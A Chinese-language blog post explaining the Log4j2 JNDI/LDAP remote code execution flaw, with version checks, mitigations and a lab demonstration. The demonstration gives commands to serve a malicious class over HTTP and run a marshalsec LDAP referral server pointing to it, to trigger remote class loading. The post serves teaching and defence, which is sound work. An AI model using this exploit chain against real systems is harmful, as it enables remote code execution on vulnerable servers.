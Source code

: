 ```yaml
---
layout: post
title: 'log4j2 JNDI解析LDAP协议变量远程加载class存在漏洞（可被攻击执行任意代码）'
subtitle: '程序员圈子爆火的log4j2存在怎样的漏洞，如何攻？如何防？我们来一波攻防演示。'
background: '/img/posts/log4j2-jndi-ldap-remote-class-load-bug.png'
comment: false
---
```


# 目录

- [1. log4j2在程序员圈子火了-java程序员的不眠夜](#1)
    - [1.1 log4j日志简介](#1.1)
    - [1.2 判断是否使用有漏洞的log4j日志框架](#1.2)
    - [1.3 建议措施](#1.3)
- [2. 漏洞分析](#2)
- [3. 攻防演练](#3)
    - [3.1 攻](#3.1)
    - [3.2 防](#3.2)
    - [3.3 攻方"有道"](#3.3)
- [4. 引用](#4)

---

<h3 id="1">1. log4j2在程序员圈子火了-java程序员的不眠夜</h3>

2021年12月10日一觉醒来，发现程序员社交网站上全是`lo4j2`相关的内容。

实际上2021年11月24日，阿里云安全团队已经向Apache官方团队报告了`Apache Log4j2`远程代码执行漏洞。之后陆续国内多家机构监测到`Apache Log4j2`存在任意代码执行的漏洞。2021年12月10日阿里云再次报告官方`2.15-rc1`版本存在漏洞绕后，建议升级`2.15.0`版本。网上出现了`Apache Log4j2`任意远程代码执行漏洞的攻击代码，仿佛一夜间大家才紧张起来，也有网友感叹“第一次感受到互联网的脆弱”。

<h4 id="1.1">1.1 log4j日志简介</h4>

java有很多优秀的日志框架，并且设计是解耦的。接口层比如：`SL4j`、`Apache commons logging(JCL)`；实现层比如：`log4j`、`logbak`、`java util logging(JUL)`等。

`log4j`只是Apache出品的java日志框架的一种实现，所以不是说用了`Tomcat`就一定用了`log4j`框架输出日志，主要看应用是集成了哪种日志框架。

`log4j2`的集成需要在`pom.xml`中引入依赖：

```shell
<dependency>
    <groupId>org.slf4j</groupId>
    <artifactId>slf4j-log4j12</artifactId>
    <version>1.7.5</version>
</dependency>
```

简单的配置文件`log4j.properties`demo如下：

```shell
#This is a log4j property
log4j.rootLogger=INFO, STDOUT
log4j.logger.deng=INFO
log4j.appender.STDOUT=org.apache.log4j.ConsoleAppender
log4j.appender.STDOUT.layout=org.apache.log4j.PatternLayout
log4j.appender.STDOUT.layout.ConversionPattern=%5p [%t] (%F\:%L) - %m%n
```

日志的级别分为：`All` < `Trace` < `Debug` < `Info` < `Warn` < `Error` < `Fatal`。

> `All`：最低层级，用于打开所有日志；`Trace`：表示程序推进；`Debug`；表示调试信息；`Info`：表示程序的运行过程；`Warn`：表示警告日志；`Error`：表示错误日志；`Fatal`：表示严重错误，将会导致应用程序退出。

更多java日志框架内容参考：[https://fengmengzhao.github.io/2018/06/12/detailed-explanation-of-java-logging-framework.html]([https://fengmengzhao.github.io/2018/06/12/detailed-explanation-of-java-logging-framework.html])

<h4 id="1.2"> 1.2 判断是否使用有漏洞的log4j日志框架</h4>

`log4j`存在漏洞的版本是`2.x <= 2.15-rc1`。查看对应的依赖是否存在有漏洞版本即可。具体方法：

1. maven或者gradle构建项目，查看对应的配置文件，是否有相应的log4j依赖。
2. 非第三方构建项目，找到项目的依赖`CLASSPAHT`，查看是否有相应的log4j依赖。
3. 查看`CLASSPAHT`下是否有`log4j.properties`配置文件。

> 查看`CLASSPAHT`的办法可以用`ps -ef |grep $PID`，查到对应的进程信息里面`-cp`参数值为`classpath`。对于springboot项目可以使用命令`mkdir xxx && cd xxx && jar xvf ../xx.jar`解压后找到`lib`目录查看。

如果上面能够查到对应版本的jar包，很可能使用`log4j`作为日志框架，存在漏洞风险。

<h4 id="1.3">1.3 建议措施</h4>

- 正式方案
    - 下载官方最新稳定版本并升级，下载地址：[https://logging.apache.org/log4j/2.x/download.html](https://logging.apache.org/log4j/2.x/download.html)。
- 临时方案
    - 可升级jdk版本至`6u211`、`7u201`、`8u191`、`11.0.1`以上，可以在一定程度上限制JNDI等漏洞利用方式。
    - 对于大于2.10版本的Log4j，可设置系统属性`log4j2.formatMsgNoLookups`或者环境变量`LOG4J_FORMAT_MSG_NO_LOOKUPS`为`true`。
    - 对于2.0-beta9 to 2.10.0的版本，可以删除对应的`JndiLookup`类：`zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class`

<h3 id="2">2. 漏洞分析</h3>

`log4j`作为一个优秀的日志框架，提供了以某种约定的格式来获取到运行环境中配置信息的能力，称为`looksup`。例如提供了以下配置：

```shell
<properties>
    <property name="logPath">${sys.catalina.home}/xmlogs</property>
</properties>
```

后续在代码中就可以通过`${logPath}`来获取该属性的值。运行时`log4j`提供的`looksup`实现会解析`${`开头的变量，并且支持多种协议。例如通过`LDAP`查找变量；通过`docker`查找变量等，详细参考：[https://www.docs4dev.com/docs/zh/log4j2/2.x/all/manual-lookups.html](https://www.docs4dev.com/docs/zh/log4j2/2.x/all/manual-lookups.html)。

这次`log4j`的漏洞就是利用java的`jndi`API访问`LDAP`服务来远程加载类，攻击者可以写任意恶意远程代码在类加载的时候执行达到攻击目的。

代码层次分析参考：[https://mp.weixin.qq.com/s/K74c1pTG6m5rKFuKaIYmPg](https://mp.weixin.qq.com/s/K74c1pTG6m5rKFuKaIYmPg)

<h3 id="3">3. 攻防演练</h3>

<h4 id="3.1">3.1 攻</h4>

根据漏洞分析，我们想要模拟“攻”，需要准备4个东西：

1. 集成了log4j2的java项目。本示例：log4j的版本是`1.14.1`，JDK环境`1.8.0_121`。
2. `编译好的恶意class文件`。本示例：恶意class文件在Windows环境运行**弹出计算器**，在Unix环境运行**列出运行环境监听的所有端口并生成图片test.jpg到程序运行目录**。
3. `LDAP`服务。本示例：使用`marshalsec-0.0.3-SNAPSHOT-all.jar`。
4. `远程获取恶意class文件http服务`。本示例：使用Python启动http服务，

从git上克隆项目到本地，github项目地址：[https://github.com/FengMengZhao/apache-log4j2-bug.git](https://github.com/FengMengZhao/apache-log4j2-bug.git)，gitee备份项目地址：[https://gitee.com/fengmengzhao/apache-log4j2-bug.git](https://gitee.com/fengmengzhao/apache-log4j2-bug.git)。

1). 导入maven项目到IDE中，或者使用`mvn`命令行下载maven依赖。

2). 将`Log4jRCE.java`类本地编译生成的class文件，该class文件即为恶意远程class文件，将该class提供为http可访问服务。可以将java和class文件copy到一个目录中，在该目录中启动简单的python http server：

> java文件实际上并不需要，这里copy java源文件是为了验证http远程可访问。

```shell
#进入class文件所在的目录执行
/usr/bin/python3 -m http.server
```

服务端启动如图，默认端口是8000：

![](/img/posts/log4j-remote-class-python-httpserver.png)

http访问java文件验证：

![](/img/posts/log4j-remote-class-source-code-http-access.png)

3). 在项目`tool`目录下找到文件`marshalsec-0.0.3-SNAPSHOT-all.jar`，该jar包用于创建简单的`LDAP`服务。启动LDAP服务，默认监听`1389`端口号，需要指定2)中启动的远程http服务：

```shell
#可以在最后加上一个参数指定LDAP服务端口，模式是1389
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://ip:port:8000/#Log4jRCE
```

![](/img/posts/log4j-ldap-service.png)

4). 执行`log4j`的main方法，即可验证攻击完成：

在Windows平台上运行，调出计算器：

![](/img/posts/log4j-win-invoke-calculator.png)

在Unix平台上运行，获取后台监听端口及进程，并将内容在运行目录生成`test.jpg`：

![](/img/posts/log4j-unix-get-listen-port-and-generate-pic.jpg)

<h3 id="4">4. 引用</h3>

- [https://github.com/tangxiaofeng7/apache-log4j-poc](https://github.com/tangxiaofeng7/apache-log4j-poc)
- [https://help.aliyun.com/noticelist/articleid/1060971232.html](https://help.aliyun.com/noticelist/articleid/1060971232.html)
- [https://m.freebuf.com/articles/308151.html](https://m.freebuf.com/articles/308151.html)
- [https://logging.apache.org/log4j/2.x/download.html](https://logging.apache.org/log4j/2.x/download.html)
- [https://logging.apache.org/log4j/2.x/security.html](https://logging.apache.org/log4j/2.x/security.html)
- [https://mp.weixin.qq.com/s/K74c1pTG6m5rKFuKaIYmPg](https://mp.weixin.qq.com/s/K74c1pTG6m5rKFuKaIYmPg)

---
